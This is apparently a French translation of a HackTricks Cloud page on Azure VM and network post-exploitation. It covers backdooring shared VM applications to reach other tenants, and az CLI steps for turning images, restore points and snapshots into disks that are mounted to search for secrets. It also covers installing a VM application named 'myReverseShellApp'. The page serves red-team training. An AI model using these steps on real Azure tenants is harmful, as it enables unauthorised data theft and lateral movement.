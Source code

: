 # Az - VMs & Network Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## VMs & Réseau

Pour plus d'informations sur les VMs Azure et le réseau, consultez la page suivante :

{% content-ref url="../az-services/vms/" %}
[vms](../az-services/vms/)
{% endcontent-ref %}

### Pivotement d'application VM

Les applications VM peuvent être partagées avec d'autres abonnements et locataires. Si une application est partagée, c'est probablement parce qu'elle est utilisée. Donc, si l'attaquant parvient à **compromettre l'application et télécharge une version avec un backdoor**, il pourrait être possible qu'elle soit **exécutée dans un autre locataire ou abonnement**.

### Informations sensibles dans les images

Il pourrait être possible de trouver **des informations sensibles à l'intérieur des images** prises des VMs dans le passé.

1. **Lister les images** des galeries
```bash
# Get galleries
az sig list -o table

# List images inside gallery
az sig image-definition list \
--resource-group <RESOURCE_GROUP> \
--gallery-name <GALLERY_NAME> \
-o table

# Get images versions
az sig image-version list \
--resource-group <RESOURCE_GROUP> \
--gallery-name <GALLERY_NAME> \
--gallery-image-definition <IMAGE_DEFINITION> \
-o table
```
2. **Lister les images personnalisées**
```bash
az image list -o table
```
3. **Créer une VM à partir de l'ID d'image** et rechercher des informations sensibles à l'intérieur.
```bash
# Create VM from image
az vm create \
--resource-group <RESOURCE_GROUP> \
--name <VM_NAME> \
--image /subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP>/providers/Microsoft.Compute/galleries/<GALLERY_NAME>/images/<IMAGE_DEFINITION>/versions/<IMAGE_VERSION> \
--admin-username <ADMIN_USERNAME> \
--generate-ssh-keys
```
### Informations sensibles dans les points de restauration

Il pourrait être possible de trouver **des informations sensibles à l'intérieur des points de restauration**.

1. **Lister les points de restauration**
```bash
az restore-point list \
--resource-group <RESOURCE_GROUP> \
--restore-point-collection-name <COLLECTION_NAME> \
-o table
```
2. **Créer un disque** à partir d'un point de restauration

{% code overflow="wrap" %}
```bash
az disk create \
--resource-group <RESOURCE_GROUP> \
--name <NEW_DISK_NAME> \
--source /subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP>/providers/Microsoft.Compute/restorePointCollections/<COLLECTION_NAME>/restorePoints/<RESTORE_POINT_NAME>
```
{% endcode %}

3. **Attacher le disque à une VM** (l'attaquant doit déjà avoir compromis une VM à l'intérieur du compte)
```bash
az vm disk attach \
--resource-group <RESOURCE_GROUP> \
--vm-name <VM_NAME> \
--name <DISK_NAME>
```
4. **Montez** le disque et **recherchez des informations sensibles**

{% tabs %}
{% tab title="Linux" %}
```bash
# List all available disks
sudo fdisk -l

# Check disk format
sudo file -s /dev/sdX

# Mount it
sudo mkdir /mnt/mydisk
sudo mount /dev/sdX1 /mnt/mydisk
```
{% endtab %}

{% tab title="Windows" %}
#### **1. Ouvrir la gestion des disques**

1. Faites un clic droit sur **Démarrer** et sélectionnez **Gestion des disques**.
2. Le disque attaché devrait apparaître comme **Hors ligne** ou **Non alloué**.

#### **2. Mettre le disque en ligne**

1. Localisez le disque dans le panneau inférieur.
2. Faites un clic droit sur le disque (par exemple, **Disque 1**) et sélectionnez **En ligne**.

#### **3. Initialiser le disque**

1. Si le disque n'est pas initialisé, faites un clic droit et sélectionnez **Initialiser le disque**.
2. Choisissez le style de partition :
* **MBR** (Master Boot Record) ou **GPT** (GUID Partition Table). GPT est recommandé pour les systèmes modernes.

#### **4. Créer un nouveau volume**

1. Faites un clic droit sur l'espace non alloué sur le disque et sélectionnez **Nouveau volume simple**.
2. Suivez l'assistant pour :
* Attribuer une lettre de lecteur (par exemple, `D:`).
* Formater le disque (choisissez NTFS dans la plupart des cas).
{% endtab %}
{% endtabs %}

### Informations sensibles dans les disques et les instantanés

Il pourrait être possible de trouver **des informations sensibles à l'intérieur des disques ou même dans les anciens instantanés de disque**.

1. **Lister les instantanés**
```bash
az snapshot list \
--resource-group <RESOURCE_GROUP> \
-o table
```
2. **Créer un disque à partir d'un instantané** (si nécessaire)
```bash
az disk create \
--resource-group <RESOURCE_GROUP> \
--name <DISK_NAME> \
--source <SNAPSHOT_ID> \
--size-gb <DISK_SIZE>
```
3. **Attacher et monter le disque** à une VM et rechercher des informations sensibles (voir la section précédente pour savoir comment faire cela)

### Informations sensibles dans les extensions VM et les applications VM

Il pourrait être possible de trouver **des informations sensibles à l'intérieur des extensions VM et des applications VM**.

1. **Lister toutes les applications VM**

{% code overflow="wrap" %}
```bash
## List all VM applications inside a gallery
az sig gallery-application list --gallery-name <gallery-name> --resource-group <res-group> --output table
```
{% endcode %}

2. Installez l'extension dans une VM et **recherchez des informations sensibles**

{% code overflow="wrap" %}
```bash
az vm application set \
--resource-group <rsc-group> \
--name <vm-name> \
--app-version-ids /subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Compute/galleries/myGallery/applications/myReverseShellApp/versions/1.0.2 \
--treat-deployment-as-failure true
```
{% endcode %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
